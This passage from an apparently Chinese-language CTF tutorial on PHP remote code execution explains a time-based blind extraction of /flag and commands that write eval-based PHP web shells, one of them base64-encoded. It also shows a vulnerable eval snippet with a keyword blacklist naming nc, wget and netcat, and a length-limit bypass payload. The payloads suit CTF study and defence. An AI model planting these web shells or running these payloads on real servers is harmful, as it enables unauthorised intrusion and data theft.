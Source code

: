 ```
```

**核心命令分析**

```
a=$(cat /flag | head -1 | cut -b {i});if [ $a = {j} ];then sleep 2;fi
```

**第一部分**

```
a=$(cat /flag | head -1 | cut -b {i});
定义变量a，将cat /flag的结果利用head -1取第一行，利用cut -b number取结果的第i（脚本中的循环i）个字符，将字符赋值给a
```

**第二部分**

```
if [ $a = {j} ];
判断得到的变量a是否等于j，j为上述脚本中dic字典的遍历结果
```

**第三部分**

```
then sleep 2;fi
如果判断为真，则睡眠2秒，通过网页是否睡眠判断出flag的每个字母的结果
```

##### 命令行写shell

可以通过命令执行写入shell，然后蚁剑连接，在某些情况会是一个不错的选择

```
echo 'PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8=' | base64 -d > ./123.php  



echo '<?php eval(\$_GET[1]);phpinfo();?>' > /var/www/html/2.php
```

#### 长度限制绕过

示例代码

```
<?php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("111");
    }
}
```

此题利用substr函数对eval的代码进行了限制

```
get传参   F=`$F `; sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  ` `$F `;sleep 3 ` == shell_exec("`$F `; sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了，将sleep 3换成我们2.1.1节中所讲的操作即可得到答案
```
